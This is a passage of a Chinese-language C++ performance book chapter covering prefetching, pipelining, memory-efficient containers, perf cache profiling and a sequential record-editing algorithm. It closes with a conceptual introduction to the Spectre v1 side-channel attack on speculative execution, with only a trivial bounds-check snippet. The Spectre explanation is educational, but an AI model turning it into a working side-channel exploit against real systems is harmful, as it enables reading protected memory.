有很多信息，其中很多是过时的，关于预取模式检测的限制。例如，在旧的文献中，你可以读到，按*正向*顺序访问内存（对于数组`a`，从`a[0]`到`a[N-1]`）比*反向*访问更有效。这对于任何现代 CPU 来说都不再成立，也已经多年如此。如果我开始准确描述哪些模式在预取方面是有效的，哪些不是有效的，这本书可能会陷入同样的陷阱。最终，如果你的算法需要特定的内存访问模式，并且你想找出你的预取是否能够处理它，最可靠的方法是使用类似我们在本章中用于随机内存访问的基准代码来进行测量。

总的来说，我可以告诉你，预取对于按递增和递减顺序访问内存同样有效。然而，改变方向会导致一些惩罚，直到预取适应新的模式。使用步长访问内存，比如在数组中访问每四个元素，将被检测和预测，就像密集的顺序访问一样有效。预取可以检测多个并发步长（即访问每三个和每七个元素），但在这里，我们进入了一个领域，你必须收集自己的数据，因为硬件能力从一个处理器到另一个处理器会发生变化。

硬件采用的另一种性能优化技术是非常成功的**流水线**或**硬件循环展开**。我们已经在上一章中看到了它的应用，用于隐藏条件指令造成的延迟。同样，流水线也用于隐藏内存访问的延迟。考虑这个循环：

```cpp
for (size_t i = 0; i < N; ++i) {
    b[i] = func(a[i]);
}
```

在每次迭代中，我们从数组中读取值`a[i]`，进行一些计算，并将结果`b[i]`存储在另一个数组中。由于读取和写入都需要时间，我们可以期望循环执行的时间线看起来像这样：


图 4.7 - 非流水线循环的时间线

这一系列操作会让 CPU 大部分时间都在等待内存操作完成。相反，硬件将预先读取指令流，并叠加不相互依赖的指令序列：



图 4.8 - 流水线（展开）循环的时间线

第二个数组元素的加载可以在第一个元素被读取后立即开始，假设有足够的寄存器。为简单起见，我们假设 CPU 一次只能加载两个值；大多数真实的 CPU 可以同时进行多次内存访问，这意味着流水线可以更宽，但这并不改变主要思想。第二组计算在输入值可用后立即开始。经过前几步后，流水线被加载，CPU 大部分时间都在计算（如果不同迭代的计算步骤重叠，CPU 甚至可以同时执行多个迭代，前提是它有足够的计算单元来这样做）。

流水线可以隐藏内存访问的延迟，但显然是有限制的。如果读取一个值需要 7 纳秒，而我们需要读取一百万个值，那么最好情况下需要 7 毫秒，这是无法避免的（再次假设 CPU 一次只能读取一个值）。流水线可以通过将计算与内存操作叠加在一起来帮助我们，在理想情况下，所有计算都在这 7 毫秒内完成。预取可以在我们需要之前开始读取下一个值，从而缩短平均读取时间，但前提是它能正确猜测出该值。无论如何，本章中进行的测量展示了以不同方式访问内存的最佳情况。

在测量内存速度和呈现结果方面，我们已经涵盖了基础知识，并了解了内存系统的一般特性。任何更详细或具体的测量都留给读者自行练习，你应该有足够的能力收集所需的数据，以便对你特定应用程序的性能做出明智的决策。现在我们转向下一步：我们知道内存是如何工作的，以及我们可以期望从中获得的性能，但我们可以做些什么来改善具体程序的性能呢？

# 优化内存性能

当许多程序员学习了上一节的材料后，他们通常的第一反应是：“谢谢，我现在明白为什么我的程序慢了，但我必须处理我拥有的数据量，而不是理想的 32KB，算法也是固定的，包括复杂的数据访问模式，所以我无能为力。”如果我们不学会如何为我们需要解决的问题获得更好的内存性能，那么本章就没有多大价值。在本节中，我们将学习可以用来改善内存性能的技术。

## 内存高效的数据结构

数据结构的选择，或者更一般地说，数据组织，通常是程序员在内存性能方面做出的最重要决定。重要的是要了解你能做什么，不能做什么：*图 4.5*和*图 4.6*中显示的内存性能确实就是全部，你无法绕过它（严格来说，这只有 99%的真实性；有一些少见的异类内存访问技术可以超出这些图表所显示的限制）。但是，你可以选择在这些图表上的哪个点对应于你的程序。首先让我们考虑一个简单的例子：我们有 1 百万个 64 位整数，我们需要按顺序存储和处理。我们可以将这些值存储在一个数组中；数组的大小将为 8 MB，并且根据我们的测量，访问时间约为 0.6 纳秒/值，如*图 4.6*所示。



图 4.9 - 一个数组（A）与列表（L）元素的写入时间

或者，我们可以使用列表来存储相同的数字。`std::list`是一个节点集合，每个节点都有值和指向下一个和上一个节点的两个指针。因此，整个列表使用了 24 MB 的内存。此外，每个节点都是通过单独调用`operator new`来分配的，因此不同的节点可能位于非常不同的地址，特别是如果程序同时进行其他内存分配和释放。在遍历列表时，我们需要访问的地址不会有任何模式，因此要找到列表的性能，我们只需要在曲线上找到对应于 24 MB 内存范围的点，这给出了每个值超过 5 纳秒，几乎比在数组中访问相同数据慢一个数量级。

在这一点上要求证明的人，从上一章中学到了宝贵的东西。我们可以轻松地构建一个微基准测试，比较将数据写入列表和相同大小的向量。这是向量的基准测试：

```cpp
template <class Word>
void BM_write_vector(benchmark::State& state) {
    const size_t size = state.range(0);
    std::vector<Word> c(size);
    Word x = {};
    for (auto _ : state) {
        for (auto it = c.begin(), it0 = c.end(); it != 
          it0;) {
            REPEAT(benchmark::DoNotOptimize(*it++ = x);)
        }
        benchmark::ClobberMemory();
    }
}
BENCHMARK_TEMPLATE1(BM_write_vector, unsigned long)->Arg(1<<20);
```

将`std::vector`更改为`std::list`以创建一个列表基准测试。请注意，与先前的基准测试相比，大小的含义已经改变：现在它是容器中元素的数量，因此内存大小将取决于元素类型和容器本身，就像*图 4.6*中所示的那样。对于 1 百万个元素，结果正如所承诺的那样：



图 4.10 - 列表与向量基准测试

为什么有人会选择链表而不是数组（或`std::vector`）？最常见的原因是，在创建时，我们不知道将要有多少数据，而且由于涉及到复制，增长向量是非常低效的。有几种解决这个问题的方法。有时可以相对廉价地预先计算数据的最终大小。例如，我们可能需要扫描一次输入数据来确定为结果分配多少空间。如果输入数据组织得很有效，可能值得对输入进行两次遍历：首先是计数，其次是处理。

如果不可能预先知道最终数据大小，我们可能需要一个更智能的数据结构，它结合了向量的内存效率和列表的调整效率。这可以通过使用块分配的数组来实现：



图 4.11 - 块分配的数组（deque）可以就地增长

这种数据结构以固定数量的块分配内存，通常足够小，可以适应 L1 缓存（通常使用 2 KB 到 16 KB 之间）。每个块都被用作数组，因此在每个块内，元素是按顺序访问的。块本身是以列表的形式组织的。如果需要扩展这种数据结构，只需分配另一个块并将其添加到列表中。访问每个块的第一个元素可能会导致缓存未命中，但一旦预取检测到顺序访问的模式，块中的其余元素可以被高效地访问。在每个块中的元素数量上摊销，随机访问的成本可以变得非常小，由此产生的数据结构几乎可以表现得与数组或向量相同。在 STL 中，我们有这样的数据结构：`std::deque`（不幸的是，大多数 STL 版本中的实现并不特别高效，对 deque 的顺序访问通常比相同大小的向量要慢一些）。

另一个偏好列表而不是数组（单块或分配的）的原因是列表允许在任何位置快速插入，而不仅仅是在末尾。如果需要这样做，那么必须使用列表或另一个节点分配的容器。在这种情况下，通常最好的解决方案是不要尝试选择适用于所有要求的单个数据结构，而是将数据从一个数据结构迁移到另一个数据结构。例如，如果我们想使用列表存储数据元素，一次一个，同时保持排序顺序，一个问题要问的是，我们是否需要顺序始终保持排序，只在插入所有元素后，或者在构建过程中的某些时候但不是一直？

如果算法中存在数据访问模式变化的点，通常有利于在该点更改数据结构，即使需要复制一些内存。例如，我们可以构建一个列表，并在添加最后一个元素后，将其复制到数组中以实现更快的顺序访问（假设我们不需要再添加任何元素）。如果我们可以确定某部分数据是完整的，我们可以将该部分转换为数组，可能是块分配数组中的一个或多个块，并将仍然可变的数据留在列表或树数据结构中。另一方面，如果我们很少需要按排序顺序处理数据，或者需要以多种顺序处理数据，那么将顺序与存储分离通常是最佳解决方案。数据存储在向量或双端队列中，并且顺序是通过按所需顺序排序的指针数组施加的。由于所有有序数据访问现在是间接的（通过中间指针），只有在这种访问很少的情况下才是有效的，大部分时间，我们可以按照数组中存储的顺序处理数据。

关键是，如果我们经常访问某些数据，我们应该选择使该特定访问模式最佳的数据结构。如果访问模式随时间变化，数据结构也应该随之变化。另一方面，如果我们不花太多时间访问数据，那么从一种数据排列转换到另一种排列的开销可能无法证明是合理的。然而，在这种情况下，低效的数据访问本来就不应该是一个问题。这带我们来到下一个问题：我们如何找出哪些数据访问效率低，更一般地说，哪些数据访问成本高？

## 性能分析内存

通常，特定数据结构或数据组织的效率是相当明显的。例如，如果我们有一个包含数组或向量的类，并且这个类的接口只允许一种数据访问方式，即从开始到结束的顺序迭代（在 STL 语言中为前向迭代器），那么我们可以相当肯定地说，数据在内存级别上被访问得尽可能高效。我们无法确定算法的效率：例如，在数组中进行特定元素的线性搜索是非常低效的（每次内存读取当然是高效的，但读取次数很多；我们知道更好的数据组织方式来进行搜索）。

仅仅知道哪些数据结构在内存上是高效的是不够的：我们还需要知道程序在特定数据集上花费了多少时间。有时，这是不言自明的，尤其是在良好的封装下。如果我们有一个函数，在概况或时间报告中花费了很多时间，而函数内的代码并不特别繁重，但移动了大量数据，那么提高对这些数据的访问效率很可能会改善整体性能。

不幸的是，这是比较容易的情况，因此首先进行了优化。然后我们到了一个没有单个函数或代码片段在执行时间上突出的程度，但程序仍然效率低下的地步。当你没有*热点*代码时，很多时候你有*热点*数据：一个或多个数据结构在整个程序中被访问；在这些数据上花费的累计时间很长，但没有局限在任何函数或循环中。传统的分析无法帮助我们：它会显示运行时间均匀分布在整个程序中，并且优化任何一个代码片段都会带来很少的改进。我们需要的是一种方法来找到整个程序中访问效率低下的数据，并将其累积起来。

仅仅使用时间测量工具很难收集这些信息。然而，使用硬件事件计数器的分析器可以相当容易地收集这些信息。大多数 CPU 可以计算内存访问，更具体地说是缓存命中和未命中。在本章中，我们再次使用`perf`分析器；通过它，我们可以使用以下命令来测量 L1 缓存的使用效果：

```cpp
$ perf stat -e \
  cycles,instructions,L1-dcache-load-misses,L1-dcache-loads \
  ./program
```

缓存测量计数器不是默认计数器集的一部分，必须显式指定。可用计数器的确切集合因 CPU 而异，但始终可以通过运行`perf list`命令查看。在我们的示例中，我们在读取数据时测量 L1 缓存未命中。术语**dcache**代表**数据缓存**（发音为*dee-cache*）；CPU 还有一个单独的**指令缓存**或**icache**（发音为*ay-cache*），用于从内存中加载指令。

我们可以使用这个命令行来对我们的内存基准进行分析，以便随机地址读取内存。当内存范围较小，比如 16KB 时，整个数组可以适应 L1 缓存，几乎没有缓存未命中：



图 4.12 - 使用 L1 缓存良好的程序概况

将内存大小增加到 128MB 意味着缓存未命中非常频繁：



图 4.13 - 使用 L1 缓存不佳的程序概况

请注意，`perf stat`收集整个程序的总体值，其中一些内存访问是高效的，而另一些则不是。一旦我们知道某个地方的某人处理内存访问不当，我们就可以使用`perf record`和`perf report`来获取详细的概要，就像*第二章*中所展示的那样，*性能测量*（我们在那里使用了不同的计数器，但对于我们选择收集的任何计数器来说，过程都是相同的）。当然，如果我们最初的时间概要未能检测到任何热点代码，那么缓存概要也将显示相同的情况。代码中将有许多位置，其中缓存未命中的比例很高。每个位置对总体执行时间只有很小的贡献，但它们会累积起来。现在轮到我们注意到这些代码位置中的许多位置有一个共同点：它们操作的内存。例如，如果我们看到有几十个不同的函数，它们共同占据了 15%的缓存未命中率，但它们都操作同一个列表，那么列表就是有问题的数据结构，我们必须以其他方式组织我们的数据。

我们现在已经学会了如何检测和识别那些低效的内存访问模式对性能产生负面影响的数据结构，以及一些替代方案。不幸的是，替代的数据结构通常没有相同的特性或性能：如果元素必须在数据结构的生命周期中的任意位置插入，那么列表就不能用向量来替换。通常情况下，不是数据结构本身，而是算法本身需要低效的内存访问。在这种情况下，我们可能需要改变算法。

## 优化内存性能的算法

算法的内存性能经常被忽视。算法通常是根据它们的**算法性能**或执行的操作或步骤数量来选择的。内存优化通常需要做出违反直觉的选择：做更多的工作，甚至做一些不必要的工作，以改善内存性能。这里的关键是要用一些计算来换取更快的内存操作。内存操作很慢，所以我们用于额外工作的*预算*相当大。

更快地使用内存的一种方法是使用更少的内存。这种方法通常会导致重新计算一些本来可以存储和从内存中检索的值。在最坏的情况下，如果这种检索导致随机访问，那么读取每个值将需要几个纳秒（在我们的测量中为 7 纳秒）。如果重新计算该值所需的时间少于这个时间，而且当转换为 CPU 可以执行的操作数量时，7 纳秒是相当长的时间，那么我们最好不要存储这些值。这是空间与内存的传统权衡。

这种优化的一个有趣变体是：我们不仅仅是使用更少的内存，而是尝试在任何给定时间使用更少的内存。这里的想法是尝试将当前的工作数据集适应到其中一个缓存中，比如 L2 缓存，并在移动到数据的下一部分之前尽可能多地对其进行操作。将新的数据集加载到缓存中会导致每个内存地址都发生缓存未命中，根据定义。但是最好是接受那一次缓存未命中，然后在一段时间内有效地操作数据，而不是一次处理所有数据，然后冒险每次需要这个数据元素时都发生缓存未命中。

在本章中，我将向您展示一种更有趣的技术，我们通过更多的内存访问来节省一些其他内存访问。这里的权衡是不同的：我们希望减少慢速的随机访问，但我们要付出的代价是增加快速的顺序访问。由于顺序内存流大约比随机访问快一个数量级，我们再次有一个可观的*预算*来支付我们必须做的额外工作，以减少慢速内存访问。

演示需要一个更复杂的例子。假设我们有一组数据记录，比如字符串，程序需要对其中一些记录应用一组变更。然后我们得到另一组变更，依此类推。每个集合都会对一些记录进行更改，而其他记录保持不变。这些变更通常会改变记录的大小以及内容。每个集合中被更改的记录子集是完全随机和不可预测的。下面是一个显示这一点的图表：



图 4.14 - 记录编辑问题。在每个变更集中，用*标记的记录被编辑，其余保持不变

解决这个问题最直接的方法是将记录存储在它们自己的内存分配中，并将它们组织在一些数据结构中，允许每个记录被新记录替换（旧记录被释放，因为新记录通常大小不同）。数据结构可以是树（在 C++中设置）或列表。为了使示例更具体，让我们使用字符串作为记录。我们还必须更具体地说明变更集的指定方式。让我们说它不指向需要更改的特定记录；相反，对于任何记录，我们可以说它是否需要更改。这样的字符串变更集的最简单示例是一组查找和替换模式。现在我们可以勾画出我们的实现：

```cpp
 std::list<std::string> data;
… initialize the records …
for (auto it = data.begin(), it0 = --data.end(), it1 = it;
     true; it = it1) {
    it1 = it;
    ++it1;
    const bool done = it == it0;
    if (must_change(*it)) {
        std::string new_str = change(*it);
        data.insert(it, new_str);
        data.erase(it);
    }
    if (done) break;
}
```

在每个变更集中，我们遍历整个记录集合，确定记录是否需要更改，如果需要，就这样做（变更集隐藏在函数`must_change()`和`change()`中）。代码只显示了一个变更集，所以我们会根据需要运行这个循环多次。

这种算法的弱点在于我们使用了一个列表，更糟糕的是，我们不断地在内存中移动字符串。对新字符串的每次访问都会导致缓存未命中。现在，如果字符串非常长，那么初始的缓存未命中并不重要，剩下的字符串可以使用快速的顺序访问来读取。结果类似于我们之前看到的块分配数组，内存性能良好。但是如果字符串很短，整个字符串可能会在单个加载操作中被读取，而每次加载都是在随机地址上进行的。

我们的整个算法只是在随机地址上进行加载和存储。正如我们所见，这几乎是访问内存的最糟糕方式。但是我们还能做什么呢？我们不能将字符串存储在一个巨大的数组中：如果数组中间的一个字符串需要增长，那么内存从哪里来呢？就在那个字符串之后是下一个字符串，所以没有空间可以增长。

提出替代方案需要进行范式转变。执行所需操作的算法按照指定的方式也对内存组织施加了限制：更改记录需要在内存中移动它们，只要我们希望能够更改任何一条记录而不影响其他任何内容，我们就无法避免记录在内存中的随机分布。我们必须侧面解决问题，并从限制开始。我们真的希望按顺序访问所有记录。在这种约束下，我们能做些什么？我们可以非常快速地读取所有记录。我们可以决定记录是否必须更改；这一步与以前相同。但是如果记录必须增长，我们该怎么办？我们必须将其移动到其他地方，没有足够的空间来增长。但我们同意记录将保持按顺序分配，一个接一个。然后前一条记录和下一条记录也必须移动，以便它们仍然存储在我们新记录的前后。这是替代算法的关键：所有记录在每个更改集中都会移动，无论它们是否被更改。现在我们可以将所有记录存储在一个巨大的连续缓冲区中（假设我们知道总记录大小的上限）：



图 4.15 – 顺序处理所有记录

在复制过程中，算法需要分配相同大小的第二个缓冲区，因此峰值内存消耗是数据大小的两倍：

```cpp
char* buffer = get_huge_buffer();
… initialize N records …
char* new_buffer = get_huge_buffer();
const char* s = buffer;
char* s1 = new_buffer;
for (size_t i = 0; i < N; ++i) {
    if (must_change(s)) {
        s1 = change(s, s1);
    } else {
        const size_t ls = strlen(s) + 1;
        memcpy(s1, s, ls);
        s1 += ls;
    }
    s += ls;
}
release(buffer);
buffer = new_buffer;
```

在每个更改集中，我们将每个字符串（记录）从旧缓冲区复制到新缓冲区。如果记录需要更改，新版本将被写入新缓冲区。否则，原始记录将被简单复制。随着每个新的更改集，我们将创建一个新的缓冲区，并在操作结束时释放旧缓冲区（实际实现将避免重复调用分配和释放内存，并简单地交换两个缓冲区）。

这种实现的明显缺点是使用了巨大的缓冲区：我们必须在选择其大小时持悲观态度，以便为可能遇到的最大记录分配足够的内存。峰值内存大小的翻倍也令人担忧。我们可以通过将这种方法与我们之前看到的**可增长数组**数据结构相结合来解决这个问题。我们可以将记录存储在一系列固定大小的块中，而不是分配一个连续的缓冲区：



图 4.16 – 使用块缓冲区编辑记录

为了简化图表，我们绘制了相同大小的所有记录，但这个限制并非必要：记录可以跨越多个块（我们将块视为连续的字节序列，仅此而已）。在编辑记录时，我们需要为编辑后的记录分配一个新的块。一旦编辑完成，包含旧记录的块（或块）就可以被释放；我们不必等待整个缓冲区被读取。但我们甚至可以做得更好：我们可以将最近释放的块放回空块列表，而不是将其返回给操作系统。我们即将编辑下一条记录，我们将需要一个空的新块来存放结果。我们碰巧有一个：它就是曾经包含我们上次编辑的最后一条记录的块；它位于我们最近释放的块列表的开头，并且最重要的是，该块是我们最后访问的内存，因此它很可能仍然在缓存中！

乍一看，这个算法似乎是一个非常糟糕的主意：我们每次都要复制所有记录。但让我们仔细分析这两种算法。首先，阅读的数量是相同的：两种算法都必须读取每个字符串以确定是否必须更改。第二种算法在性能上已经领先：它在单个顺序扫描中读取所有数据，而第一种算法则在内存中跳来跳去。如果字符串被编辑，那么两种算法都必须将新字符串写入新的内存区域。第二种算法再次领先，因为它的内存访问模式是顺序的（而且它不需要为每个字符串进行内存分配）。权衡出现在字符串未被编辑时。第一种算法什么都不做；第二种算法进行复制。

通过这种分析，我们可以定义每种算法的优劣情况。如果字符串很短，并且每次更改集中有大部分字符串被更改，顺序访问算法会获胜。如果字符串很长，或者很少有字符串被更改，随机访问算法会获胜。然而，确定什么是*长*以及有多少是*大部分*的唯一方法是进行测量。

我们必须测量性能并不一定意味着您必须始终编写完整程序的两个版本。我们经常可以在操作简化数据的小*模拟*程序中模拟行为的特定方面。我们只需要知道记录的大致大小，更改了多少个记录，以及更改单个记录的代码，以便我们可以测量内存访问对性能的影响（如果每次更改都非常耗时，那么读取或写入记录需要多长时间就无关紧要了）。有了这样的模拟或原型实现，我们可以进行近似测量并做出正确的设计决策。

那么，在现实生活中，顺序字符串复制算法是否值得呢？我们已经对编辑中等长度字符串（128 字节）使用正则表达式模式进行了测试。如果每个更改集中有 99%的字符串都被编辑，那么顺序算法大约比随机算法快四倍（结果可能会与机器有关，因此必须在与您期望使用的硬件类似的硬件上进行测量）。如果 50%的记录都被编辑，顺序访问仍然更快，但只快约 12%（这可能在不同型号的 CPU 和内存类型之间的差异范围内，因此我们称之为平局）。更令人惊讶的结果是，如果只有 1%的记录被更改，那么两种算法的速度几乎相当：不进行随机读取所节省的时间可以弥补几乎完全不必要的复制的成本。

对于较长的字符串，如果很少更改字符串，随机访问算法会轻松获胜，对于非常长的字符串，即使所有字符串都更改，它也是平局：两种算法都按顺序读取和写入所有字符串（对长字符串的随机访问增加的时间可以忽略不计）。

现在我们已经拥有了确定我们的应用程序更好算法的一切所需。这通常是性能设计的方式：我们确定了性能问题的根源，想出了消除问题的方法，以代价做其他事情，然后我们必须拼凑出一个原型，让我们能够测量聪明的技巧是否真的值得。

在结束本章之前，我想向您展示缓存和其他硬件提供的性能改进的完全不同的“用法”。

# 机器中的幽灵

在过去的两章中，我们已经了解到，在现代计算机上，从初始数据到最终结果的路径有多么复杂。有时，机器确实按照代码规定的方式执行：从内存中读取数据，按照指令进行计算，将结果保存回内存。然而，更常见的情况是，它经历了一些我们甚至不知道的奇怪中间状态。*从内存中读取*并不总是从内存中读取：CPU 可能决定执行其他东西，因为它认为你会需要它，等等。我们已经尝试通过直接性能测量来确认所有这些事情确实存在。出于必要，这些测量总是间接的：硬件优化和代码转换旨在提供正确的结果，毕竟只是更快。

在本节中，我们展示了更多本来应该隐藏的硬件操作的可观察证据。这是一个重大发现：2018 年的发现引发了一场短暂的网络安全恐慌，并导致硬件和软件供应商发布了大量补丁。当然，我们谈论的是 Spectre 和 Meltdown 安全漏洞家族。

## 什么是 Spectre？

在本节中，我们将详细演示 Spectre 攻击的早期版本，即 Spectre 版本 1。这不是一本关于网络安全的书；然而，Spectre 攻击是通过仔细测量程序的性能来执行的，并且依赖于我们在本书中学习的两种性能增强硬件技术：推测执行和内存缓存。这使得攻击在致力于软件性能的工作中具有教育意义。

Spectre 背后的想法是这样的。我们早些时候已经了解到，当 CPU 遇到条件跳转指令时，它会尝试预测结果，并继续执行假设预测是正确的指令。这被称为推测执行，如果没有它，我们在任何实际有用的代码中都不会有流水线。推测执行的棘手部分是错误处理：在推测执行的代码中经常发生错误，但在预测被证明正确之前，这些错误必须保持不可见。最明显的例子是空指针解引用：如果处理器预测指针不为空并执行相应的分支，那么每次分支被错误预测并且指针实际上为空时，都会发生致命错误。由于代码被正确编写以避免对空指针进行解引用，它也必须正确执行：潜在错误必须保持潜在。另一个常见的推测性错误是数组边界读取或写入：

```cpp
int a[N];
   …
if (i < N) a[i] = …
```

如果索引`i`通常小于数组大小`N`，那么这将成为预测，并且每次都会执行对`a[i]`的读取，具有推测性。如果预测错误会发生什么？结果被丢弃，所以没有造成伤害，对吧？不要那么快：内存位置`a[i]`不在原始数组中。它甚至不必是数组右后面的元素。索引可以任意大，因此索引的内存位置可能属于不同的程序，甚至属于操作系统。我们没有访问权限来读取这个内存。操作系统确实执行访问控制，因此通常尝试从另一个程序读取一些内存会触发错误。但这次，我们并不确定错误是否真实：执行仍处于推测阶段，分支预测可能是错误的。在我们知道预测是否正确之前，错误仍然是*推测性错误*。到目前为止，这里没有什么新鲜的；我们早就见过这一切。

然而，对于潜在的非法读取操作存在一个微妙的副作用：值`a[i]`被加载到缓存中。下次我们尝试从相同位置读取时，读取速度会更快。无论读取是真实的还是推测的，内存操作在推测执行期间的工作方式与*真实*操作一样。从主内存读取需要更长的时间，而从缓存读取则更快。内存加载的速度是我们可以观察和测量的。这不是程序的预期结果，但仍然是一个可测量的副作用。实际上，程序通过意外的方式具有了额外的输出机制；这被称为**侧信道**。

Spectre 攻击利用了这个侧信道：



图 4.17 – 设置 Spectre 攻击

它使用在推测执行期间获得的位置`a[i]`的值来索引另一个数组`t`。完成后，一个数组元素`t[a[i]]`将被加载到缓存中。数组`t`的其余部分从未被访问过，仍然在内存中。请注意，与元素`a[i]`不同，后者实际上不是数组`a`的元素，而是我们无法通过任何合法手段到达的内存位置的某个值，数组`t`完全在我们的控制范围内。攻击的成功与否取决于分支保持足够长时间的不可预测性，同时我们读取值`a[i]`和值`t[a[i]]`。否则，一旦 CPU 检测到分支被错误预测，并且实际上不需要任何这些内存访问，推测执行将立即结束。推测执行完成后，最终会检测到错误预测，并且将回滚推测操作的所有后果，包括将要发生的内存访问错误。除了一个后果：数组`t[a[i]]`的值仍然在缓存中。这本身并没有问题：访问这个值是合法的，我们可以随时这样做，而且无论如何，硬件一直在缓存之间移动数据；它从不改变结果，也不会让你访问任何你不应该访问的内存。

然而，这整个系列事件的一个可观察的后果是：数组`t`的一个元素比其余元素访问速度要快得多：

